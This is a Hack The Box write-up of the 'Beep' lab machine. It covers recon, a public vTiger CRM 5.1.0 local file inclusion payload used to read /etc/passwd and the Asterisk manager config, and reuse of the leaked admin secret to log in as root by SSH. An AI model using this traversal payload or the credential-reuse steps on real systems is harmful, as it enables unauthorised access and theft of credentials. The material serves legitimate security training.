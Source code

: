 # Beep-HTB
Beep is a linux machinhe that's rated as easy. so let's start :)

# Recon
I started by runing nmap scan on the machine and found many open ports
```
root@kali:~# nmap -sC -sV 10.10.10.7
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-09 11:41 EDT
Nmap scan report for 10.10.10.7
Host is up (0.030s latency).
Not shown: 987 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: UIDL LOGIN-DELAY(0) APOP TOP AUTH-RESP-CODE STLS RESP-CODES IMPLEMENTATION(Cyrus POP3 server v2) PIPELINING USER EXPIRE(NEVER)
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: OK BINARY CATENATE UNSELECT NO RIGHTS=kxte UIDPLUS Completed URLAUTHA0001 SORT ATOMIC X-NETSCAPE LIST-SUBSCRIBED LISTEXT THREAD=ORDEREDSUBJECT CONDSTORE IMAP4rev1 ANNOTATEMORE CHILDREN LITERAL+ IMAP4 RENAME IDLE ID SORT=MODSEQ QUOTA STARTTLS MAILBOX-REFERRALS MULTIAPPEND THREAD=REFERENCES NAMESPACE ACL
443/tcp   open  ssl/https?
|_ssl-date: 2020-08-09T15:47:01+00:00; +2m36s from scanner time.
880/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com

Host script results:
|_clock-skew: 2m35s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 350.07 seconds
```

# Port 443
If we navigate to the webpage we can see a login window

![image1](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Beep/images/1.png)

## ffuf
I will be using ffuf to fuzz the web directories
```
root@kali:~/Desktop/tools/Web/FFUF# ./ffuf -w /usr/share/dirb/wordlists/big.txt -u https://10.10.10.7/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.0.2
________________________________________________

 :: Method           : GET
 :: URL              : https://10.10.10.7/FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

.htaccess               [Status: 403, Size: 287, Words: 21, Lines: 11]
.htpasswd               [Status: 403, Size: 287, Words: 21, Lines: 11]
admin                   [Status: 301, Size: 309, Words: 20, Lines: 10]
cgi-bin/                [Status: 403, Size: 286, Words: 21, Lines: 11]
configs                 [Status: 301, Size: 311, Words: 20, Lines: 10]
favicon.ico             [Status: 200, Size: 879, Words: 6, Lines: 1]
help                    [Status: 301, Size: 308, Words: 20, Lines: 10]
images                  [Status: 301, Size: 310, Words: 20, Lines: 10]
lang                    [Status: 301, Size: 308, Words: 20, Lines: 10]
libs                    [Status: 301, Size: 308, Words: 20, Lines: 10]
mail                    [Status: 301, Size: 308, Words: 20, Lines: 10]
modules                 [Status: 301, Size: 311, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 309, Words: 20, Lines: 10]
recordings              [Status: 301, Size: 314, Words: 20, Lines: 10]
robots.txt              [Status: 200, Size: 28, Words: 3, Lines: 3]
static                  [Status: 301, Size: 310, Words: 20, Lines: 10]
themes                  [Status: 301, Size: 310, Words: 20, Lines: 10]
var                     [Status: 301, Size: 307, Words: 20, Lines: 10]
vtigercrm               [Status: 301, Size: 313, Words: 20, Lines: 10]
:: Progress: [20469/20469] :: Job [1/1] :: 122 req/sec :: Duration: [0:02:47] :: Errors: 0 ::
```
And we found ```vtigercrm```, if we navigate to that directory and look at the footer we can see the version number. ```vtiger CRM 5.1.0```

![image2](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Beep/images/2.png)

if we search for that version number in searchsploit we will find one exploit for it.
```
root@kali:~/Desktop/tools/Web/FFUF# searchsploit vtiger CRM 5.1.0
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
vTiger CRM 5.1.0 - Local File Inclusion                                                                                                                                                                  | php/webapps/18770.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
So it Looks like vTiger is vulnerable to Local File Inclusion (LFI), which means we can view files that are located on the host. If you check the exploit that we found we can see where exactly it is located.
```
root@kali:~/Desktop/tools/Web/FFUF# cat /usr/share/exploitdb/exploits/php/webapps/18770.txt 
# Exploit Title: VTiger CRM
# Google Dork: None
# Date: 20/03/2012
# Author: Pi3rrot
# Software Link: http://sourceforge.net/projects/vtigercrm/files/vtiger%20CRM%205.1.0/
# Version: 5.1.0
# Tested on: CentOS 6
# CVE : none

We have find this vulnerabilitie in VTiger 5.1.0
In this example, you can see a Local file Inclusion in the file sortfieldsjson.php

Try this :
https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

```
root:x:0:0:root:/root:/bin/bash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/spool/mail:/sbin/nologin news:x:9:13:news:/etc/news: uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin games:x:12:100:games:/usr/games:/sbin/nologin gopher:x:13:30:gopher:/var/gopher:/sbin/nologin ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin nobody:x:99:99:Nobody:/:/sbin/nologin mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash distcache:x:94:94:Distcache:/:/sbin/nologin vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin pcap:x:77:77::/var/arpwatch:/sbin/nologin ntp:x:38:38::/etc/ntp:/sbin/nologin cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash dbus:x:81:81:System message bus:/:/sbin/nologin apache:x:48:48:Apache:/var/www:/sbin/nologin mailman:x:41:41:GNU Mailing List Manager:/usr/lib/mailman:/sbin/nologin rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin postfix:x:89:89::/var/spool/postfix:/sbin/nologin asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin spamfilter:x:500:500::/home/spamfilter:/bin/bash haldaemon:x:68:68:HAL daemon:/:/sbin/nologin xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin fanis:x:501:501::/home/fanis:/bin/bash
```
And we found user ```fanis```, Also in /etc/passwd, we see an entry for ```asterisk```. Asterisk is an open source PBX software and it has a configuration file located in ``` /etc/asterisk/manager.conf``` which has configuration details like passwords. We can now use the LFI that we found in VTiger to read the asterisk configuration file.

So if we navigate to here : "https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/asterisk/manager.conf%00"
we will get the configuration file.
```
; ; AMI - Asterisk Manager interface ; ; FreePBX needs this to be enabled. Note that if you enable it on a different IP, you need ; to assure that this can't be reached from un-authorized hosts with the ACL settings (permit/deny). ; Also, remember to configure non-default port or IP-addresses in amportal.conf. ; ; The AMI connection is used both by the portal and the operator's panel in FreePBX. ; ; FreePBX assumes an AMI connection to localhost:5038 by default. ; [general] enabled = yes port = 5038 bindaddr = 0.0.0.0 displayconnects=no ;only effects 1.6+ [admin] secret = jEhdIekWmdjE deny=0.0.0.0/0.0.0.0 permit=127.0.0.1/255.255.255.0 read = system,call,log,verbose,command,agent,user,config,command,dtmf,reporting,cdr,dialplan,originate write = system,call,log,verbose,command,agent,user,config,command,dtmf,reporting,cdr,dialplan,originate #include manager_additional.conf #include manager_custom.conf 
```
There is one important thing that we found here and it is ```[admin] secret = jEhdIekWmdjE```.

After I tried many things I found out that the asterisk password is the same as root’s password, so we can ssh as root using the password we found.
```
root@kali:~/Desktop/tools/Web/FFUF# ssh root@10.10.10.7
root@10.10.10.7's password: 
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep ~]# 
```
And we are root :)

```
[root@beep ~]# cat /root/root.txt 
d88e006123842...
```
```
[root@beep ~]# cat /home/fanis/user.txt 
aeff3def0c765c...
```

Thanks for reading and you can find me here on Twitter: ```https://twitter.com/electronicbots```

